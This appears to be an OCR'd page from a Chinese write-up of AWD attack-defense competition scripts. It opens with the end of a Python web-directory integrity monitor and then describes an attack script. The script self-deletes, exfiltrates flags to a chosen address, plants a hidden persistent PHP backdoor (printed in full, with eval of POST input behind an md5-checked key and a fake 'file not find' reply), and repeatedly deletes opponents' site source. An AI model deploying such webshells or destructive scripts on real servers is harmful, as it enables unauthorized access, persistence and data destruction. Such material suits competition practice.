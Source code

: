 ```python
    file_list_tmp[:] = []
    dir_list_tmp[:] = []


os.system("rm -rf /tmp/awd_web_hash.txt /tmp/awd_web_list.txt /tmp/awd_web_dir.txt /tmp/awd_web_bak/")
web_dir = "/var/www/"  # web目录，注意最后要加斜杠
file_list = []
dir_list = []
bak_dict = {}
file_list_tmp = []
dir_list_tmp = []
bak_dict_tmp = {}
initialization = {'ok': 'false'}
ListDir(web_dir)
GetHash()
while True:
    print(time.ctime()+"   安全")
    FileMonitor()
    time.sleep(1)  # 监控间隔，按需修改

```

## **AWD线下赛攻击脚本：**

- **(1）内存马&自动获取刷新的flag**

    该脚本功能：

    1. 该脚本为内存脚本，访问一下就自删除，不留痕迹。

    2. 自动读取flag，并将flag提交到指定地址，会自动检测是否更新flag，只有更新了flag才会提交，需要在脚本中修改flag物理路径。

    3. 会生成不死马，不死马具有隐藏和欺骗功能。用蚁剑访问http://xxx/.c403d59fea33113df44d465aeec336ab.php?key=ssr2021shuoshurenmd5，密码为a。

       木马原始代码如下（只要别人不知道key，就没办法黑吃黑）：

       ```php

       <?php $key=$_GET["key"];
       $keyhash=md5($key);
       if($keyhash==="c403d59fea33113df44d465aeec336ab") {
           eval($_POST["a"]);
       }
       echo"file not find.";
       ?>
       ```

       这个只作为备用连接，flag正常自己提交过来的话就不用管。

    4. 该脚本会不断删除目标的网站源码，别人扣分等于我们加分。

    5. 脚本命名必须为awd2021.php，若要修改的话需要同步修改下面代码中的文件名。
